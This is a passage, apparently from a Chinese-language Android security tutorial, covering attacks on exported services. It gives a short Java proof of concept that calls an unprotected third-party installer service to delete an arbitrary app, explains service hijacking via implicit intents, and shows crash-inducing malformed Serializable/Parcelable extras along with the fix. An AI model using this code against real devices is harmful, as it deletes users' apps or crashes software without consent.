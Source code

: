``` java
Intent in = new Intent();

in.setComponent(new ComponentName("jp.aplix.midp.tools","jp.aplix.midp.tools.ApkInstaller"));

in.putExtra("action", "deleteApk");

in.putExtra("pkgName", "xxxxx");

startService(in);
```

### 案例2:services 劫持
攻击原理:隐式启动services,当存在同名services,先安装应用的services优先级高
攻击模型
![](../pictures/androidser4.jpg)

### 案例3:拒绝服务
(java.lang.NullPointerException 空指针异常)
现在除了空指针异常crash外还多出了一类crash:intent 传入对象的时候,转化出现异常.
Serializable:
```
Intent i = getIntent();                            
if(i.getAction().equals("serializable_action"))
{ 
    i.getSerializableExtra("serializable_key");//未做异常判断
}
Parcelable:
this.b =(RouterConfig)  this.getIntent().getParcelableExtra("filed_router_config");//引发转型异常崩溃
```
POC内传入畸形数据即可引发crash,修复很简单捕获异常即可.

